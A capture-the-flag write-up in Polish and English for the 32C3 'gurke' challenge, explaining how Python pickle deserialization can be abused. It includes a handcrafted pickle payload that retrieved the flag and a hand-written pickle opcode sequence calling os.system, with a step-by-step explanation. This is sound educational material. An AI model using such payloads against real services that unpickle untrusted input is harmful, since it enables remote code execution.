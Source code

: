 ```
(S'YwEAAAABAAAAAgAAAEMAAABzDAAAAHwAAGQBABlkAgAZUygDAAAATmkDAAAAaQAAAAAoAAAAACgBAAAAdAYAAABmcmFtZXMoAAAAACgAAAAAc0QAAABDOi9Vc2Vycy9QaGFyaXNhZXVzL1B5Y2hhcm1Qcm9qZWN0cy91bnRpdGxlZC9zcmMvMzJjMy9ndXJrZS9ndXJrZS5weXQEAAAAZnVuMQwAAABzAgAAAAAB'
tRtR(dS''
(t(ttR(cinspect
getouterframes
(cinspect
currentframe
)RtRtRtRtRtR.
```

Wysłanie tak utworzonego kodu zwraca nam z serwera flagę `32c3_rooDahPaeR3JaibahYeigoong`

Dla zainteresowanych, obszerny opis zastosowanej techniki exploitowania pickle: https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_WP.pdf

### ENG version

There is a [script](gurke.py) running on the server, which takes an input we send and deserializes it with pickle.
From the code we can see, that the flag is collected via socket and that we are constrained in terms of kernel functions we can use.

Pickle allows a very unusual deserialization option - we can write a function `__reduce__()` in a class, and from this function return a tuple with:

- function

- tuple with parameters for this function

Pickle when deserializing such object will call given function with those parameters.

This means that we can, theoretically, call any function with any set of parmeters on the server side. In particular, we could call for example `os.system("command")`!
Pickle has some internal security which prevents from using some functions, however the format of pickle output is so simple that we can just write it by hand.

Pickle calling `os.system("ls")` can look like this:

```
cos
system
(S'ls'
tR.
```

Pickle executes this on a stack machine. The code above is interpreted as:

`cos\nsystem` - push function `system` imported from module `os` on the stack

`(` - push a marker on the stack

`S'ls'` - push a string `ls` on the stack

`t` - pop everything from the stack until a marker is reached, put all those elements in a tuple and push this tuple to the stack

`R` - pop two elements from the stack, first one is arguments tuple and the second one is a function that should be called with those arguments, push result of the function on the stack

